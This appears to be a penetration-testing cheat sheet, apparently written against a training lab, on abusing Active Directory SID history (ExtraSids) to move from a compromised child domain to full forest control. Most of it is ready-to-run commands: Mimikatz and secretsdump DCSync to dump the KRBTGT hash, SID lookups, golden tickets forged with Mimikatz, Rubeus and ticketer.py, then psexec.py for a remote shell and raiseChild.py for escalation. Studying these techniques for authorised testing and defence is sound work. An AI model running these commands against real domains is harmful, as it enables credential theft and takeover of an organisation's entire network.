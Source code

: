 # ExtraSids

## Windows

The [sidHistory](https://docs.microsoft.com/en-us/windows/win32/adschema/a-sidhistory) attribute is used in migration scenarios. If a user in one domain is migrated to another domain, a new account is created in the second domain. The original user's SID will be added to the new user's SID history attribute, ensuring that the user can still access resources in the original domain.

SID history is intended to work across domains, but can work in the same domain. Using Mimikatz, an attacker can perform SID history injection and add an administrator account to the SID History attribute of an account they control. When logging in with this account, all of the SIDs associated with the account are added to the user's token.

This token is used to determine what resources the account can access. If the SID of a Domain Admin account is added to the SID History attribute of this account, then this account will be able to perform _DCSync_ and create a **Golden Ticket** or a **Kerberos ticket-granting ticket (TGT)**, which will allow for us to authenticate as any account in the domain of our choosing for further persistence

### ExtraSids-Mimikatz

This attack allows for the compromise of a parent domain once the child domain has been compromised. Within the same AD forest, the sidHistory property is respected due to a lack of SID Filtering protection. Therefore, if a user in a child domain that has their sidHistory set to the Enterprise Admins group (which only exists in the parent domain), they are treated as a member of this group, which allows for administrative access to the entire forest. In other words, we are creating a Golden Ticket from the compromised child domain to compromise the parent domain. In this case, we will leverage the SIDHistory to grant an account (or non-existent account) Enterprise Admin rights by modifying this attribute to contain the SID for the Enterprise Admins group, which will give us full access to the parent domain without actually being part of the group.

First, we need to obtain the _NT hash_ for the KRBTGT account, which is a service account for the Key Distribution Center (KDC) in Active Directory. The account KRB (Kerberos) TGT (Ticket Granting Ticket) is used to encrypt/sign all Kerberos tickets granted within a given domain. Domain controllers use the account's password to decrypt and validate Kerberos tickets. The KRBTGT account can be used to create Kerberos TGT tickets that can be used to request TGS tickets for any service on any host in the domain. This is also known as the Golden Ticket attack and is a well-known persistence mechanism for attackers in Active Directory environments. The only way to invalidate a Golden Ticket is to change the password of the KRBTGT account, which should be done periodically and definitely after a penetration test assessment where full domain compromise is reached.

We need following:

* The KRBTGT hash for the child domain
* The SID for the child domain
* The name of a target user in the child domain (does not need to exist!)
* The FQDN of the child domain.
* The SID of the Enterprise Admins group of the root domain.
* With this data collected, the attack can be performed with Mimikatz.

1. **DCSync to get NT Hash**:

```
lsadump::dcsync /user:LOGISTICS\krbtgt
```

We can either find the _SID of child domain_ from the output of mimikatz Or get both from:

```
lsadump::trust /patch
```

We can use _powerview_ too:

```
Get-DomainSID
```

or

```
Get-ADGroup -Identity "Enterprise Admins" -Server "INLANEFREIGHT.LOCAL"
```

2. **Enterprise Admins Group's SID**

```
Get-DomainGroup -Domain INLANEFREIGHT.LOCAL -Identity "Enterprise Admins" | select distinguishedname,objectsid
```

To confirm no access check:

```
ls \\academy-ea-dc01.inlanefreight.local\c$
```

3. **Create Golden Ticket**

**Mimikatz:**

```
mimikatz.exe

kerberos::golden /user:hacker /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689 /krbtgt:9d765b482771505cbe97411065964d5f /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /ptt

```

Add -519 to SIDs

**Rubeus:**

```
.\Rubeus.exe golden /rc4:9d765b482771505cbe97411065964d5f /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689  /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /user:hacker /ptt
```

user can be made up or Administrator

Then check if it is in memory with `klist`

Now we can use ls:

```
ls \\academy-ea-dc01.inlanefreight.local\c$
```

### DCSync

For example targetting _lab\_adm_:

```
lsadump::dcsync /user:INLANEFREIGHT\lab_adm
```

When dealing with multiple domains and our target domain is not the same as the user's domain, we will need to specify the exact domain to perform the DCSync operation on the particular domain controller. The command for this would look like the following:

```
lsadump::dcsync /user:INLANEFREIGHT\lab_adm /domain:INLANEFREIGHT.LOCAL
```

or

```
lsadump::dcsync /domain:trusted.vl /dc:trusteddc.trusted.vl /all
```

If dcsync is not working try:

```
dir \\trusteddc.trusted.vl\c$\
```

Then:

```
$sess = new-pssession -computername trusteddc.trusted.vl
```

or remove -computername

```
enter-pssession $sess
```

## Linux

**Grab krbtgt hash:**

```
secretsdump.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 -just-dc-user LOGISTICS/krbtgt
```

**Get SID of child domain:**

```
lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 
```

can also grep

```
lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 | grep "Domain SID"
```

**Get Enterprise Domain SID**

```
lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.5 | grep -B12 "Enterprise Admins"
```

ADD -519 AT THE END

**Golden TIcket**

```
ticketer.py -nthash 9d765b482771505cbe97411065964d5f -domain LOGISTICS.INLANEFREIGHT.LOCAL -domain-sid S-1-5-21-2806153819-209893948-922872689 -extra-sid S-1-5-21-3842939050-3880317879-2865463114-519 hacker
```

**Pop a shell**

```
export KRB5CCNAME=hacker.ccache 
```

```
psexec.py LOGISTICS.INLANEFREIGHT.LOCAL/hacker@academy-ea-dc01.inlanefreight.local -k -no-pass -target-ip 172.16.5.5
```

**Escalating from child to parent domain** We need to specify the target domain controller and credentials for an administrative user in the child domain

```
raiseChild.py -target-exec 172.16.5.5 LOGISTICS.INLANEFREIGHT.LOCAL/htb-student_adm
```
